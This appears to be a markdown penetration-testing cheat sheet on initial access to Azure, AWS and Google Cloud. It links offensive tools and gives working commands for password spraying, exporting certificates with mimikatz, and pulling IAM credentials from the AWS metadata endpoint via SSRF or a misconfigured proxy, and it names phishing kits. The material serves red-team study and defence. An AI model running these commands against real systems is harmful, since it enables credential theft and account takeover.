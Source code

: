 # Initial access attacks
## Public storage
#### Find data in public storage
- https://github.com/initstring/cloud_enum can scan all three cloud services for multiple services.

#### Public azure blobs
- https://github.com/NetSPI/MicroBurst
```
Invoke-EnumerateAzureBlobs –Base <base name>
```

#### Public AWS blobs
- https://github.com/RhinoSecurityLabs/pacu

#### Public Google Storage Buckets
- https://github.com/initstring/cloud_enum

## Key disclosure in public repositories
- Scavange repos for keys
- Find keys in realtime: https://github.com/eth0izzle/shhgit
- Tools for finding secrets
  - Gitleaks https://github.com/zricethezav/gitleaks
  - Gitrob https://github.com/michenriksen/gitrob
  - Truffle hog https://github.com/dxa4481/truffleHog

### Gitleaks
- https://github.com/zricethezav/gitleaks
#### Search for secrets
```
./gitleaks detect -v source ~/tools/gitleaks/
```

#### Use web browser to view the commit
```
https://github.com/[git account]/[repo name]/commit/[commit ID]
```

## Password attacks
- Credential stuffing (databreaches)
- Password spraying

#### Password spraying Azure
- https://github.com/dafthack/MSOLSpray
- https://github.com/ustayready/fireprox
```
Import-Module .\MSOLSpray.ps1
Invoke-MSOLSpray -UserList validemails.txt -Password <PASSWORD> -Verbose
```

## Web server exploitation
- Here are some generic things ot look for:
  - Out of date web technologies with known vulns
  - SQL or command injection vulns
  - Server-side-request forgery (SSRF)
- Good place to start post shell:
  - Creds in metadata service
  - Certificates
  - Environment variables
  - Storage Accounts


#### Reused access certs as private keys on web servers
1. Comprimise web server
2. Extract certificate with mimkatz
3. Use it to authenticate to Azure
```
mimikatz# crypto::capi
mimikatz# privilege::debug
mimikatz# crypto::cng
mimikatz# crypto::certificates /systemstore:local_machine /store:my /export
```

### AWS Instance Metadata
- Metadata endpoint is hosted on a non routable IP adress at 169.254.169.254
- Can contain access/secret keys to AWS and IAM credentials
- Server compromise or SSRF vulnerabilities might allow remote attackers to reach it.
- IAM credentials can be stored here ```http://169.254.169.254/latest/meta-data/iam/security-credentials/<IAM Role Name>```
- New version requeres token, a put request is send and then responded to with a token. Then that token can be used to query data

#### Instance Metadata Service URL
```
http://169.254.169.254/latest/meta-data
```

#### Additional IAM creds possibly available here

```
http://169.254.169.254/latest/meta-data/iam/security-credentials/<IAM Role Name>
```

- Can potentially hit it externally if a proxy service (like Nginx) is being hosted in AWS and misconfigured

```bash
curl --proxy vulndomain.target.com:80 http://169.254.169.254/latest/meta-data/iam/security-credentials/ && echo
```

#### IMDS Version 2 has some protections 
- but these commands can be used to access it
```bash
TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"` 
curl http://169.254.169.254/latest/meta-data/profile -H "X-aws-ec2-metadata-token: $TOKEN"
```

## Phishing
- Still the #1 method of compromise
- Two primary phishing techniques:
  - Cred harvesting / session hijacking
    -  https://github.com/drk1wi/Modlishka
    -  https://github.com/kgretzky/evilginx2
  - Remote workstation compromise w/ C2

#### Google workspace calendar event injection
- Silently injects events to target calendars
- Bypasses the “don’t auto-add” setting
- Include link to phishing page
- https://www.blackhillsinfosec.com/google-calendar-event-injection-mailsniper/
